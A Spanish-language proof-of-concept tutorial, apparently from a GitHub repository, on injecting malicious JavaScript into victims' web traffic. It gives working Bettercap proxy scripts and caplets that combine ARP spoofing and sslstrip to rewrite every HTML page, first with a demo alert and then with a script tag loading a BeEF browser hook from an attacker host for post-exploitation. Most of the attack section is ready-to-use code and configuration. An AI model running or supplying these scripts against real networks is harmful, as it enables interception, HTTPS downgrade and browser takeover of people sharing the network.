# POC: Inyectar Javascript malicioso

Javascript es un lenguaje de programación utilizado en programación web que se ejecuta de lado del cliente, es decir, cualquier acción realizada en Javascript tendrá un reflejo en los equipos de aquellas personas que visiten la página web.

Aprovechando esta caracterísitca de Javascript podemos inyectar un fichero Javascript (que contiene código malicioso) dentro de las peticiones HTTP para poder realizar diferentes acciones ([como minar criptomonedas](https://www.europapress.es/portaltic/internet/noticia-the-pirate-bay-utiliza-cpu-usuarios-deshacerse-anuncios-mineria-criptomoneda-20170918140205.html))

## Inyección de Javascript

Para poder inyectar Javascript dentro de las peticiones, tendremos que realizar un ataque de arp spoofing, de forma que podemos realizar tratamiento de dichos paquetes.

Posteriormente lo que tenemos que realizar es montar un proxy http/https, de forma que todas las peticiones de nuestro objetivo pasen por este y queden infectadas.

Para poder modificar las peticiones usaremos el proxy http de bettercap. En primer lugar usaremos un código Javascript de ejemplo.

```
function onLoad(){
   log("Script loaded..");
}

function onResponse(req,res){
 
 if (res.ContentType.indexOf('text/html') == 0){
 
 	var body = res.ReadBody();
 
	 res.Body = body.replace(
	 '</head>',
	 '<script type="text/javascript">alert(\"@cyberh99 wa    s here\")</script></head>'
	 );
	}
 
}        
```
[injectionJS.js]()

Este código Javascript realiza una acción muy sencilla, se encarga de reemplazar la etiqueta _head_ del código html de cualquier página agregando una sencilla ventana que dice "@cyberh99 was here". Con esto podemos comprobar como funcionala inyección de Javascript.

Dentro del código encontramos dos funciones, las cuales _tienen que estar para el funcionamiento del script_, estas tienen la siguiente relevancia:

* onLoad() --> Se ejecuta cuando el script se cargca
* onResponse(req,res) --> Se ejecuta una vez se envía el paquete al servidor real y se recibe respuesta

Una vez que tenemos el código Javascript malicioso simplemente crearemos nuestro caplet para ejecutar Bettercap:

```
set http.proxy.script injectionJS.js
set https.proxy.script injectionJS.js

set http.proxy.sslstrip true
set https.proxy.sslstrip true

http.proxy on
https.proxy on

```
[injectionTest.cap]()

## Beef: Browser Explotation Framework

El código Javascript que hemos inyectado es muy simple, para una mera demostración, sin embargo, podemos hacer cosas mucho más complejas, un ejemplo de ello es Beef.

Beef (Browser Explotation Framework) es una herramienta que nos ofrece la opción de infectar diferentes navegadores con código javascript, de forma que podamos realizar acciones sobre la máquina infectada. Este framework puede estar conectado con Metasploit o ser utilizado para ingenieria social.

Para poder inyectar el códgio javascript de beef utilizaremos el siguiente código:

```javascript
function onLoad() {
    log( "BeefInject loaded." );
    log("targets: " + env['arp.spoof.targets']);
}

function onResponse(req, res) {
    if( res.ContentType.indexOf('text/html') == 0 ){
        var body = res.ReadBody();
        if( body.indexOf('</head>') != -1 ) {
            res.Body = body.replace( 
                '</head>', 
                '<script type="text/javascript" src="http://10.0.2.15:3000/hook.js"></script></head>' 
            ); 
        }
    }
}
```
[beefJavascript.js]()

```
set http.proxy.script beefJavascript.js
set https.proxy.script beefJavascript.js

set http.proxy.sslstrip true
set https.proxy.sslstrip true

http.proxy on
https.proxy on
```
[beefInjection.cap]()

Posteriormente disponemos de todo el potencial que nos ofrece beef para realizar acciones de post explotación.

